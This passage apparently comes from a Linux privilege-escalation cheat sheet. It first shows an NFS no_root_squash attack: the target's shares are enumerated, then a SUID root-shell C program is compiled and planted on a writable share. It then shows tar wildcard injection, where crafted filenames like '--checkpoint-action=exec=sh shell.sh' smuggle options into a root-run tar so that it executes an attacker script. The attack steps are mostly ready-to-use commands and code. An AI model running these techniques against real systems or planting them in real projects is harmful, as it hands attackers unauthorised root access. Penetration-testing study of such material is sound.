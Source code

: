 The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.

```bash
showmount -e 10.10.2.15
```

check the share that you have executable rights on target machine

add this below to the mounted directory

```bash
#include<unistd.h>
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
gcc nfs.c -o nfs -w
chmod +s nfs
```
-----------------------------------------------------

The issue can be manifested by using specific options in chown, tar, rsync etc. By using specially crafted filenames, an attacker can inject arbitrary arguments to shell commands run by other users – root as well.

**Privilege escalation tar**

Running 
```bash
tar cf archive.tar *
``` 
on a folder with these files seems pretty straightforward and benign.
The problem arises if the user created a couple of fake files and a shell script that contains any arbitrary command.

```bash
-rw-r–r–. 1 leon leon 0 Oct 28 19:19 –checkpoint=1

-rw-r–r–. 1 leon leon 0 Oct 28 19:17 –checkpoint-action=exec=sh shell.sh

-rw-rw-r–. 1 user user 187 Oct 28 17:44 db.php

-rw-rw-r–. 1 user user 201 Oct 28 17:43 download.php

-rwxr-xr-x. 1 leon leon 12 Oct 28 19:17 shell.sh
```

By using the * wildcard in the tar command, these files will be understood as passed options to the tar binary and shell.sh will be executed as root.
